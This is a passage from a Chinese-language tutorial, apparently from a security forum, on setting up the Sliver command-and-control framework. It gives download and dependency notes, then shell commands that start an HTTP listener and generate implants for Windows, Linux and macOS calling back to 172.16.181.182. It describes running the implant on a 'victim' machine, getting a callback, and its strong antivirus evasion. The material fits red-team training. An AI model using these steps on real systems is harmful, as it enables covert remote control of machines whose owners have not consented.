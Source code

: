 仓库地址 - [Releases · BishopFox/sliver (github.com)](https://github.com/BishopFox/sliver/releases)  
官方建议 Server 最好部署在 Linux 上（不建议WIndows）  
直接找到对应版本下载Server和Client版本即可。

Sliver有两个外部依赖的可选功能： MinGW和Metasploit。

1. 要启用DLL有效载荷（在Linux服务器上），你需要安装MinGW。
2. 要启用一些MSF集成功能，你需要在服务器上安装Metasploit。

三、Sliver C2 使用手册
================

3.1 极速上手
--------

以http通信为例，在获取目标初始权限后，创建监听器，生成对应架构的Implant，上传执行

```shell
# 启动
./sliver-server_linux
# 创建监听器
http -l 9001
# 生成Implant/Payload
generate --http http://172.16.181.182:9001 --os windows
```

受害机上执行，成功回连，免杀确实很强  
![p9PN6gS.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-b6d9f06bfa89e5397b789f7ab623f31042ee4b59.png)  
回连信息：  
![p9PaeeJ.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-8dcb490b8ef03744ceead4020167152f44aeb7f9.png)  
使用 use 进入交互  
![p9PaVL4.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-22cd34105ee913d75866116a2885c18df325910c.png)  
后续就是进一步的操作了，这里给出一张图，描述了后渗透的进攻思路及流程，熟悉Sliver的兄弟可以直接跳转到后渗透利用部分。  
![p9PNBNt.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-5d431883950d3f571a7ddf5b36e21d5bfde19450.png)

3.2 功能详细介绍
----------

### Implant | 植入物

Sliver C2支持多种平台，可以用 --os 标志来改变编译器目标。Sliver C2也接受任何 [Golang GOOS 和 GOARCH](https://gist.github.com/asukakenji/f15ba7e588ac42795f421b48b8aede63)作为参数 --os 和 --arch

```shell
# 生成不同架构的Implant
generate --http http://172.16.181.182:9001
generate --mtls 172.16.181.182:443 --os windows --arch amd64
generate --mtls 172.16.181.182:443 --os linux --arch amd64
generate --mtls 172.16.181.182:443 --os mac --arch arm64
# 查看所有Implant信息
implants
# 重新生成指定Implant
regenerate --save . [Implant Name]
```
